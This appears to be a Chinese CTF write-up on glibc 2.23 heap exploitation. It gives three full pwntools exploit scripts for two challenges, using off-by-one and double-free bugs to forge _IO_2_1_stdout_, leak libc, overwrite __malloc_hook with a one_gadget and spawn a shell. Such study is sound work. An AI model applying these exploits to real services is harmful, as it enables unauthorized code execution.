





在做heap时有时候并没有自带的输出模块，所以打IO_2_1_stdout\成了一种常用手段。一般只出现在glibc2.23版本下glibc2.27下aslr随机的位数比较多爆破概率比较小，没算错的话应该时1/4096，而2.23的情况下是1/16。
这里记录两道例题，也忘了是哪里的题了，反正模板题。以便以后快速复现把
一道off-by-one配合_IO_2_1_stdout，一道double free配合_IO_2_1_stdout
例题1
关键字：IO_2_1_stdout\、off-by-one
功能很少，就一个add和delete，add的时候存在off-by-one



核心是堆块的布局，通过off-by-one修改堆块的大小来造成堆块的堆叠(smallbin和fastbin重叠)。具体构造见exp。
泄露之后既可以通过double free来劫持__malloc_hook（exp1），也可以故技重施来劫持__malloc_hook(exp2)，最后在申请一次堆块就能getshell
比较关键的点：add(2,0x50,'\xdd\xb5')，这里虽然申请0x60大小的堆，但由于unsortedbin中的堆块大小为0x70，glibc为了防止碎片过多malloc到的堆块大小为0x70。
exp1
from pwn import *
context.update(arch='amd64',os='linux',timeout=1)
context.log_level='debug'
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
one_gadget=[0x45226,0x4527a,0xf0364,0xf1207]
def add(index,size,content='\x00'):
p.sendlineafter('>>>\n','1')
p.sendlineafter('idx:\n',str(index))
p.sendlineafter('len:\n',str(size))
p.sendafter('content:\n',content)
def delete(index):
p.sendlineafter('>>>\n','2')
p.sendlineafter('idx:\n',str(index))
def pr(a,addr):
log.success(a+'===>'+hex(addr))
def pwn():
add(0,0x20)
add(1,0x20)
add(2,0x60)
add(3,0x20)
delete(0)
delete(2)
add(0,0x28,'a'*0x28+'\xa1')
delete(1)
add(1,0x20)
add(2,0x50,'\xdd\xb5')
add(4,0x60)
add(5,0x60,'a'*0x33+p64(0xfbad1800)+p64(0)*3+'\x00')
#=========================leak=============================
p.recv(0x40)
leak = u64(p.recv(8))
libcbase = leak - 0x3c5600
malloc_hook = libcbase + libc.sym['__malloc_hook']
one = libcbase + one_gadget[3]
pr('libcbase',libcbase)
#==========================================================
add(6,0x60)
delete(2)
delete(6)
delete(4)
add(7,0x60,p64(malloc_hook-0x23))
add(8,0x60)
add(9,0x60)
add(10,0x60,'a'*0x13+p64(one))
#gdb.attach(p)
p.interactive()
while True:
try:
global p
p = process('./pwn')
pwn()
break
except:
p.close()
print 'trying...'
exp2
from pwn import *
context.update(arch='amd64',os='linux',timeout=1)
context.log_level='debug'
libc=ELF("/lib/x86_64-linux-gnu/libc.so.6")
one_gadget=[0x45226,0x4527a,0xf0364,0xf1207]
def add(index,size,content):
p.sendlineafter('>>>\n','1')
p.sendlineafter('idx:\n',str(index))
p.sendlineafter('len:\n',str(size))
p.sendafter('content:\n',content)
def delete(index):
p.sendlineafter('>>>\n','2')
p.sendlineafter('idx:\n',str(index))
def pr(str1,addr):
log.success(str1+'===>'+hex(addr))
def pwn():
add(0,0x28,'\x00')
add(1,0x28,'\x00')
add(2,0x60,'\x00')
add(3,0x28,'\x00')
delete(0)
delete(2)
add(0,0x28,'a'*0x28+'\xa1')
delete(1)
add(1,0x28,'\x00')
add(2,0x50,'\xdd\xb5')
add(2,0x60,'\x00')
add(2,0x60,'a'*0x33+p64(0xfbad1800)+p64(0)*3+'\x00')
p.recv(0x40)
leak = u64(p.recv(8))
libcbase = leak - 0x3c5600
pr('libcbase',libcbase)
for i in range(4):
one_gadget[i] += libcbase
pr('one_gadget'+str(i),one_gadget[i])
malloc_hook = libcbase + libc.sym['__malloc_hook']
pr('malloc_hook',malloc_hook)
#gdb.attach(p)
add(0,0x28,'\x00')
add(1,0x28,'\x00')
add(2,0x60,'\x00')
add(3,0x28,'\x00')
delete(0)
delete(2)
add(0,0x28,'a'*0x28+'\xa1')
delete(1)
add(1,0x28,'\x00')
add(2,0x50,p64(malloc_hook-0x23))
add(2,0x60,'\x00')
add(2,0x60,'a'*0x13+p64(one_gadget[3]))
p.interactive()
while True:
try:
global p
p = process('./pwn')
pwn()
break
except:
p.close()
print 'trying...'
例题二：nepctf sooooeasy
关键字：IO_2_1_stdout\、double free
逻辑也很简单，只有add和delete，存在double free，本来想double free修改size来做，但这样会变得很麻烦，而且申请的堆块太多了，大于题目要求，看了wp发现了更好的堆块分布，确实是非常好的利用思路。


exp
from pwn import*
#context.log_level = 'debug'
context.update(arch='amd64',os='linux',timeout=0.5)
#p = remote('',)
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
def add(name_size,name='a',message='b'):
p.sendlineafter('choice : ','1')
p.sendlineafter('your name: \n',str(name_size))
p.sendafter('Your name:\n',name)
p.sendlineafter('Your message:\n',message)
def delete(idx):
p.sendlineafter('choice : ','2')
p.sendlineafter('index:',str(idx))
def pr(a,addr):
log.success(a+'===>'+hex(addr))
def pwn():
add(0x60)
add(0x90)
add(0x60)
delete(1)
add(0x60,'\xdd\x25')
delete(0)
delete(2)
delete(0)
add(0x60,'\x00')
add(0x60)
add(0x60)
add(0x60)
add(0x60,'a'*0x33+p64(0xfbad1800)+p64(0)*3+'\x00')
libcbase=u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))-0x3c5600
libc_realloc = libcbase + libc.sym['__libc_realloc']
malloc_hook = libcbase + libc.sym['__malloc_hook']
one = libcbase + [0x45226,0x4527a,0xf0364,0xf1207][1]
pr('libcbase',libcbase)
pr('malloc_hook',malloc_hook)
pr('one',one)
delete(0)
delete(2)
delete(0)
add(0x60,p64(malloc_hook-0x23))
add(0x60)
add(0x60)
add(0x60,'a'*11+p64(one)+p64(libc_realloc+13))
p.sendlineafter('choice : ','1')
#gdb.attach(p,'b *'+str(one))
p.interactive()
while True:
try:
global p
p = process('./sooooeasy')
pwn()
break
except:
p.close()
print 'trying...'